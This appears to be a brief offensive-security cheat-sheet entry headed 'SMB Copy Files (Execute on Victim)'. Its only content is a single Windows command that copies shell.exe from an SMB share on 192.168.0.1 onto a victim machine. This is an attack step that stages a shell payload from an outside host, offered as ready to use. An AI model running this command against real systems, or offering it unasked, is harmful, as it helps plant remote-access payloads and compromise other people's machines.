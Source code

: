 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

# Related

Tags:
    #assorted
